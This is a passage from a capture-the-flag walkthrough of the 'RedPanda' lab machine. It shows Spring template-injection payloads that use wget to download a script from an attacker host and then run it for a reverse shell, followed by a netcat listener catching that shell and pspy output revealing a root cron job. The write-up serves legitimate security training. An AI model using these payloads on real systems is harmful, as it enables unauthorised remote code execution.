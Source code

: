 6. Host payload 
7. Download reverse shell payload onto `redpanda.htb`
	```
	# Payload
	*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('wget -O /tmp/exploit.sh http://10.10.14.6/exploit.sh').getInputStream())}
	
	```
8. Invoke a reverse shell
	```
	# Payload
	*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('sh /tmp/exploit.sh').getInputStream())}
	```
9. `woodenk` shell obtained
	```
	┌──(root💀kali)-[~/htb/redpanda]
	└─# nc -nvlp 4444
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	Ncat: Connection from 10.10.11.170.
	Ncat: Connection from 10.10.11.170:43658.
	/bin/sh: 0: can't access tty; job control turned off
	$ id;whoami
	uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
	woodenk
	```
10. Demo - SSTI2RCE
	![](fRm2WxhAsT.gif)




# Privilege Escalation

## Root - Enumeration (Jar File executed as root)
1. Snoop background processes w/ `pspy64`
	```
	2022/11/05 07:36:01 CMD: UID=0    PID=27149  | /usr/sbin/CRON -f
	2022/11/05 07:36:01 CMD: UID=0    PID=27150  | /bin/sh -c /root/run_credits.sh
	2022/11/05 07:36:01 CMD: UID=0    PID=27151  | /bin/sh /root/run_credits.sh
	2022/11/05 07:36:01 CMD: UID=0    PID=27152  | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar
	2022/11/05 07:38:01 CMD: UID=0    PID=27169  | /usr/sbin/CRON -f
	2022/11/05 07:38:01 CMD: UID=0    PID=27171  | /bin/sh /root/run_credits.sh
	2022/11/05 07:38:01 CMD: UID=0    PID=27170  | /bin/sh -c /root/run_credits.sh
	2022/11/05 07:38:01 CMD: UID=0    PID=27172  | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar
	```
	> `/opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar` - is executed by `root` every 2 minutes.
	{: .prompt-info}
2. Transfer it to `kali` for analysis
